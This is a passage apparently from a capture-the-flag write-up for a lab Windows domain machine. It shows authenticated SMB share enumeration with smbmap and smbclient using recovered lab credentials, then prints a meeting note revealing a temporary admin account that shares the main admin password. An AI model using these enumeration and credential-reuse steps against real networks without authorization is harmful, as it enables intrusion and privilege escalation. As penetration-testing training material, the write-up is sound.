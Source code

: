 ### smbmap

* Time to use our fresh credentials and enumerate SMB

Test anonymous authentication

```
smbmap -H 10.129.54.147
Fails
```

Authenticated test

```
smbmap -H 10.129.54.147 -u r.thompson -p rY4n5eva

[+] IP: 10.129.54.147:445       Name: cascade.local                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
```

### smbclient

```
smbclient \\\\10.129.54.147\\Data -U r.thompson

Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020
```

* I see that I have access to the IT directory only

#### Meeting\_Notes\_June\_2018.html

```
<p>For anyone that missed yesterday�s meeting (I�m looking at
you Ben). Main points are below:</p>

<p class=MsoNormal><o:p>&nbsp;</o:p></p>

<p>-- New production network will be going live on
Wednesday so keep an eye out for any issues. </p>

<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password). </p>

<p>-- The winner of the �Best GPO� competition will be
announced on Friday so get your submissions in soon.</p>

<p class=MsoNormal><o:p>&nbsp;</o:p></p>

<p class=MsoNormal>Steve</p>
```
